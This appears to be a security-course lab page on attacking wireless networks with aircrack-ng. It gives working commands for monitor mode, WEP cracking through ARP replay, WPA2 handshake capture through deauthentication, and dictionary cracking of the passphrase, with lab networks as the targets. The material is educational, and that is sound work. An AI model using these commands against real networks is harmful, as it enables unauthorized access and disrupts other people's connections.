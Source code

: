 ```yaml
---
title: Wireless
layout: module
---
```


# Hacking Wireless Networks

IMPORTANT!: Gaining access to networks without permission is considered
an illegal act or crime in most countries. Know the law and obey.

*Aircrack-ng* [http://www.aircrack-ng.org/](http://www.aircrack-ng.org/) is
a set of tools for auditing wireless networks. The goal of these
exercises is to introduce some of their capabilities. The man pages are
very thorough and are more than enough to complete the exercises without
"cheating". You are encouraged to find the solutions in the man pages.
Please pay attention to the large variety of features the toolset offers
as we will only be able to cover a tiny fraction.

**You will need to be root to use most of these utilities.**

## Exercise 1: Recon

### Task 1

Use *airodump-ng* to find our targets' BSSIDs, channels, and security
settings given their ESSIDs: **seccon_wep** and **seccon_wpa**. Make
note of these details, you will need them later. Stop the process when
you are done.

In order to sniff a wireless network, the adapter needs to be put into
monitor mode. Some processes may interfere with the adapter while in
monitor mode.

{% capture code %}
airmon-ng check
{% endcapture %}
{% include copy-paste.html title="Airmon Check" code=code %}

List the processes that may interfere. It is best to kill those in
normal testing. **Do not kill any processes for this lab (e.g. dhclient
& wpa_supplicant).**

{% capture code %}
airmon-ng check kill
{% endcapture %}
{% include copy-paste.html title="Killing conflicting processes" code=code %}

This command would kill potentially interfering processes, but don't
use it for this lab.

Put the wireless interface wlan0 in monitor mode. A new interface
wlan0mon0 will be created.  Automatically correct any errors noted.

{% capture code %}
airmon-ng start wlan0
{% endcapture %}
{% include copy-paste.html title="Configuring the wireless interface wlan0 in monitor mode." code=code %}

Use airodump-ng.  Note: "Copy" might be broken for this command, as the double-dashes don't get
copied properly.

{% capture code %}
airodump-ng --essid seccon_wep --essid seccon_wpa wlan0mon
{% endcapture %}
{% include copy-paste.html title="Using airodump-ng" code=code %}

## Exercise 2 : Cracking WEP

### Task 1

Run airodump-ng to start capturing packets on the target network
utilizing WEP. Let this capture continue.

{% capture text %}
<pre>
    airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

Use aircrack-ng PTW (Pyshkin, Tews, Weinmann) method to crack the WEP
PSK.

{% capture text %}
<pre>
       # -a 1 specifies we are cracking WEP
       aircrack-ng -a 1 [-b $target_bssid] $capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Anywhere from 20k-60k IVs will be needed. Use aireplay-ng to spoof an
associated station and replay ARP frames to increase the data rate.

{% capture text %}
<pre>
      # -3 indicates replay ARP frames
      aireplay-ng -3 -b $target_bssid -h $spoofed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

## Exercise 3 : Obtaining the WPAv2 PSK

### Task 1

Use airodump-ng to capture a WPA handshake corresponding to a target
network.

{% capture text %}
<pre>
      # Wait until the WPA handshake appears in the top line.
      airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

If the handshake doesn't reveal itself passively, use aireplay-ng to
deauthenticate an associated station. This will force a handshake to
occur.

{% capture text %}
<pre>
       # -0 1 indicates send one set of deauth packets
       aireplay-ng -0 1 -a $target_bssid -c $authed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Use *aircrack-ng* to find the WPA PSK using the
dictionary */usr/share/wordlists/fasttrack.txt*.

{% capture text %}
<pre>
      # -a 2 specifies we are looking for a WPA handshake
      aircrack-ng -a 2 [-b $target_bssid] -w /usr/share/wordlists/fasttrack.txt $handshake_capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}
